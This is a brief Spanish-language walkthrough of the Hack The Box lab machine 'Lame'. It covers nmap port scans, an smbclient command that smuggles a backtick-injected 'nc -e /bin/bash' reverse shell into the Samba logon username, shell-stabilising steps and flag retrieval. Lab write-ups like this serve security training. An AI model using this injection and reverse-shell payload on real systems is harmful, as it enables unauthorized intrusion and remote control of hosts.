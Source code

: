 # HTB Lame

Hack The Box - Lame
======

## Exploración

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN targeted
</pre>

## Acceso
Por Samba:
<pre>
	smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
	smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
</pre>

## Consola
<pre>
CTLR + Z
stty raw -echo; fg
reset
export TERM=xterm
export shell=bash
stty rows 51 columns 189
</pre>


## busqueda de flags
<pre>
find \-name user.txt | xargs cat
find \-name root.txt | xargs cat
</pre>
